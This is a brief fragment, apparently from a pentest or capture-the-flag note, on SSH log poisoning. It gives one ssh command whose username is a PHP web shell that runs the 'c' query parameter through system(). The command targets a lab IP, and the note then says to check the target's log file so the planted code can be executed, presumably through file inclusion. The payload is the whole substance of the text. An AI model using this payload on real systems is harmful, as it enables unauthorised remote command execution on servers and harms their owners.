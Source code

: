 - - -
## SSHClient : 

```sh
ssh '<?php system($_GET['c']); ?>'@192.168.1.129
```

Then check the log file of target machine.
